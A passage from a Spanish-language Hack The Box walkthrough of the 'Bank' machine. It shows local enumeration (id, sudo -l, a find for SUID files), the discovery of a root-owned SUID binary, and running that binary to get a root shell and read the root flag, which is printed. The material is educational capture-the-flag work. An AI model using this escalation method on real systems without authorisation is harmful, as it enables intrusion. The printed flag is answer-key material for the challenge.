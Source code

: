 Ahora toca escalar privilegios. Suelo usar los comandos que verás a continuación para ver opciones de escalada:

```sh
www-data@bank:/home/chris$ id  
uid=33(www-data) gid=33(www-data) groups=33(www-data)
# No está en grupos con posibles vías de escalada

www-data@bank:/home/chris$ sudo -l
[sudo] password for www-data: 
# No tenemos la password del usuario, así que no lo sabremos.

www-data@bank:/home/chris$ find / \-perm \-4000 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
... SNIP ...
```
## Escalando a root

En este último comando si que encontramos algo interesante. Tenemos con permiso SUID -opción de ejecutar como propietario del archivo/binario- el archivo **/var/htb/bin/emergency**.

```sh
www-data@bank:/home/chris$ ls -l /var/htb/bin/emergency
-rwsr-xr-x 1 root root 112204 Jun 14  2017 /var/htb/bin/emergency
# El propietario del archivo es root así que el permiso SUID lo ejecutaremos como root

www-data@bank:/home/chris$ file /var/htb/bin/emergency
/var/htb/bin/emergency: setuid ELF 32-bit LSB  shared object, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=1fff1896e5f8db5be4db7b7ebab6ee176129b399, stripped
# Es un binario de 32 bits
```

Voy a ejecutarla por hacerme una idea de lo que hace:

```sh
# En esta ocasión la almohadilla de es un comentario, es la salida del comando.
www-data@bank:/home/chris$ /var/htb/bin/emergency
# whoami
root
# cd /root
# cat root.txt
68a4d273e0e53c1be724212e284107aa
```

Pues parece que el ejecutarla nos convierte directamente en root. Y ahí vemos la flag.
